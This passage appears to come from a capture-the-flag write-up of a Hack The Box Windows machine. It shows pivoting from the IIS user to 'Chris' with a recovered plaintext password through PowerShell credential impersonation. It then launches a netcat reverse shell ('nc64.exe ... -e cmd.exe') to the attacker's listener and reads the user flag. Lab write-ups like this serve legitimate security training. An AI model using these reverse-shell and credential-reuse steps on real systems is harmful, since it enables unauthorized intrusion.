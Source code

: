 <p>Very interesting... looks like we have a password. Now let's find our username. A quick check under C:\Users and we see that there are two user directories: Administrator and Chris. Let's assume Chris is our user level access and attempt to pivot from iusr to Chris. Unlike a linux based "su username" Windows impersonation is a bit more involved. There is a good explanation of how to perform that <a href="https://superuser.com/questions/1371922/switch-user-in-powershell-like-sudo-su-in-unix-linux">on this post</a>. So let's give that a shot.</p>

{% highlight shell %}
$user = "Sniper\Chris"
$pass = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($user,$pass)
Invoke-Command -Computer Sniper -ScriptBlock { mkdir C:\temp2 } -Credential $cred
PS C:\> cd temp2
cd temp2
PS C:\temp2> cp ..\temp\nc64.exe .
PS C:\temp2> Invoke-Command -Computer Sniper -ScriptBlock { C:\temp2\nc64.exe 10.10.14.29 31337 -e cmd.exe } -Credential $cred
Invoke-Command -Computer Sniper -ScriptBlock { C:\temp2\nc64.exe 10.10.14.29 31337 -e cmd.exe } -Credential $cred
{% endhighlight %}

<p>And with our listening shell ready and waiting...</p>

{% highlight shell %}
root@kali:~/Desktop/HTB/Sniper# nc -lnvp 31337
Listening on [0.0.0.0] (family 2, port 31337)
Connection from 10.10.10.151 49742 received!
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Chris\Documents>whoami
whoami
sniper\chris

...

C:\Users\Chris\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6A2B-2640

 Directory of C:\Users\Chris\Desktop

04/11/2019  08:15 AM    <DIR>          .
04/11/2019  08:15 AM    <DIR>          ..
04/11/2019  08:15 AM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  17,985,708,032 bytes free

C:\Users\Chris\Desktop>type user.txt
type user.txt
21f4d0f2*********************
C:\Users\Chris\Desktop>
{% endhighlight %}

<p>No time to sleep we need to continue down the rabbit hole.</p>
